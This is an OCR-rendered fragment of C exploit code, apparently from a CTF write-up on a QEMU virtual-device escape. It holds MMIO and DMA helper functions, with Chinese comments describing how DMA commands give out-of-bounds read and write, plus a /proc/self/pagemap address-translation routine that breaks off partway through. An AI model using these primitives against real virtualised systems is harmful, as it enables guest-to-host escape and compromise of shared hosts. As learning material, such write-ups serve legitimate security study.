 ```c

uint64_t mmio_read(uint64_t offset)
{
	return *((uint64_t *)(mmio_mem + offset));
}

void mmio_write(uint64_t offset, uint64_t val)
{
	*((uint64_t *)(mmio_mem + offset)) = val;
}

void dma_setsrc(uint64_t src) { mmio_write(0x80, src); }
void dma_setdst(uint64_t dst) { mmio_write(0x88, dst); }
void dma_setcnt(uint64_t cnt) { mmio_write(0x90, cnt); }
void dma_trigger(uint64_t cmd) { mmio_write(0x98, cmd); }

void dma_read(uint64_t addr, size_t len)
{
    dma_setsrc(addr);
    dma_setdst(dmabuf_phys_addr);
	dma_setcnt(len);
    
    // 從 addr 寫到 dmabuf，再從 dmabuf 讀
    // 雖然 cpu_physical_memory_rw() 是做 write，但實際上可以從 dmabuf 讀
    dma_trigger(0b11);
    sleep(1);
}

void dma_write(uint64_t addr, unsigned char *buf, size_t len)
{
    if (len > DMABUF_MAPPED_SIZE)
        pexit("[-] too large");
    
   	memcpy(dmabuf, buf, len);
    dma_setsrc(dmabuf_phys_addr);
    dma_setdst(addr);
	dma_setcnt(len);
    
    // 從 dmabuf 的 physical address 寫資料到 addr 內
    // 雖然 cpu_physical_memory_rw() 是做 read，但實際上做的是 oob write
    dma_trigger(0b01);
    sleep(1);
}

void dma_enc(uint64_t addr, size_t len)
{
    dma_setsrc(addr);
    dma_setdst(dmabuf_phys_addr);
	dma_setcnt(len);
    dma_trigger(0b111);
    sleep(1);
}

uint64_t virt2phys(unsigned char *p)
{
    uint64_t virt = (uint64_t) p;
    if (virt & 0xfff != 0)
        pexit("[-] virt not aligned");
    
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        pexit("[-] open /proc/self/pagemap failed");
    
```